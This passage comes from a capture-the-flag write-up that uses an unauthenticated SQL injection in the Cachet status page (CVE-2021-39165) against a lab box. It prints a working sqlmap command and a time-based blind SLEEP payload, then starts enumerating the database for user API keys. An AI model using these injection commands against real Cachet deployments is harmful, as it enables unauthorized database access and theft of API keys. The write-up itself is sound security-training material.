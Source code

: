 ## Shell as will [Alt #2]

This path still requires getting access to Cachet to get the API key, but then uses SQL injection in the API plus server-side template injection (SSTI) to get a shell in the container:

[![](https://0xdfimages.gitlab.io/img/Catch-Flow-alt-2.png)*Click for full size image*](https://0xdfimages.gitlab.io/img/Catch-Flow-alt-2.png)

### Get API Key via SQLI

#### CVE-2021-39165

There’s an unauthenticated SQL injection in Cachet. This means that I can skip the Let’s Chat part, and go read the database. The researcher who discovered and reported CVE-2021-39165 has a [really detailed blog post](https://www.leavesongs.com/PENETRATION/cachet-from-laravel-sqli-to-bug-bounty.html) about it (and more).

The SQL injection is boolean blind, which is to say, I get to ask yes or no questions (like, is the first character in this column and row an “a”?), and slowly figure out what’s in the database. I’ll use the POC from the post to find the injection:

```

oxdf@hacky$ sqlmap -u "http://status.catch.htb:8000/api/v1/components?name=1&1[0]=&1[1]=a&1[2]=&1[3]=or+%27a%27=%3F%20and%201=1)*+--+" --batch
...[snip]...
sqlmap identified the following injection point(s) with a total of 92 HTTP(s) requests:
---
Parameter: #1* (URI)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: http://status.catch.htb:8000/api/v1/components?name=1&1[0]=&1[1]=a&1[2]=&1[3]=or+'a'=? and 1=1) AND (SELECT 3497 FROM (SELECT(SLEEP(5)))gMJf)+--+
---
...[snip]...

```

Interestingly, it couldn’t find a boolean injection, but only a time-based one. I wasn’t able to recreate the boolean injection manually either. I think it’s missing data in the database (because this is an unintended path on a CTF box) that it would show or not show, and that’s why it fails. This is more of a pain (no threads), but will still work.

#### Enumerate DB

Because the injection is slow, I’ll guess that the DB name is the same as the [example](https://github.com/CachetHQ/Cachet/blob/2.4/.env.example) `.env` file, “cachet”. There should be a `users` table that has hashes and API keys. From [the docs](https://docs.cachethq.io/docs/api-authentication), API keys are created when the user is created:

> The API Token is generated at installation time for the main user or when a new team member is added to your status page and can be found on your profile page (click your profile picture to get there).
